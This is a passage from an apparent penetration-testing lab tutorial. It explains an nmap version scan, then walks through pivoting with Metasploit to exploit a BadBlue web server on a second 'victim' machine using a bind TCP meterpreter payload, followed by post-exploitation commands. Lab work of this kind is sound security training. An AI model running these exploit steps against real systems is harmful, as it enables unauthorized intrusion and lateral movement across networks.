 - "nmap" is an open-source port scanning tool used for network exploration and security assessments.
- "-sV" is an option that enables version detection. It attempts to determine the service and version information running on the target host's open ports.
- "-p 1234" is another option that specifies the port to scan. In this case, it indicates scanning port 1234 on the local host.
- "localhost" refers to the loopback address (IP address 127.0.0.1) and represents the local machine.

By executing this command, Nmap will perform a scan on port 1234 of the local host (localhost) and attempt to identify the service running on that port, along with its version information. Version detection is valuable for understanding the specific services and versions running on the target host. It provides useful information for network administrators, penetration testers, and security professionals. It can aid in discovering known vulnerabilities, assessing the security of a network, and identifying services and applications that may require updates or fixes.

Now that we've identified that we can exploit Victim Machine 2 from within msfconsole.

```
meterpreter > background
search BadBlue
use exploit/windows/http/badblue_passthru
show options
```

Firstly, we need to set up the payload options and we're not going to be using a reverse TCP payload, we're instead going to be using the bind TCP meterpreter paylaod.

```
set payload windows/meterpreter/bind_tcp
```

Set RHOSTS to the IP address of Victim Machine 2, because we can communicate with it from within msfconsole through Victim Machine 1.

```
set RHOSTS 10.0.29.96
exploit
```

```
meterpreter > sysinfo
meterpreter > getuid
```

```
meterpreter > background
sessions
```

Just to summarize what we've done. We firstly gained access to Victim Machine 1, which we could access through our Kali Linux system without any issues. Once we gained access to Victim Machine 1, we added a route. And we added a route to the subnet of the network that Victim Machine 1 and Victim Machine 2 are a part of and that allowed us to communicate with Victim Machine 2 through Victim Machine 1 within msfconsole. Once we were able to do that, we were able to identify the open ports on Victim Machine 2, however in order to identify the service version that is running on port 80 on Victim Machine 2, we needed to forward that remote port onto a local port on our Kali Linux system so that we can perform an nmap scan to identify the exact service version. We then perform the nmap scan and identified that BadBlue is running on port 80 on Victim Machine 2 and then utilize that exploit module to gain access to Victim Machine 2 or to exploit the BadBlue service running on port 80 on Victim Machine 2 through Victim Machine 1.

